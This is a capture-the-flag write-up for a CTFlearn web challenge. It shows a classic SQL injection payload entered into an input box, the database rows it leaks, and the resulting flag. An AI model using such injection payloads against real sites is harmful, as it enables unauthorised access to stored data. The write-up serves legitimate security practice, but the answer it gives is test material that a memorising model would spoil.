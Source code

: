 # Basic Injection

See if you can leak the whole database. The flag is in there somwhere... `https://web.ctflearn.com/web4/`

Inside the input box, enter the following sql injection payload:

```text
' or 1=1 ; #
```

Then, we will see the following result:

```text
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: th4t_is_why_you_n33d_to_sanitiz3_inputs
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```

Hence, the flag should be `th4t_is_why_you_n33d_to_sanitiz3_inputs`
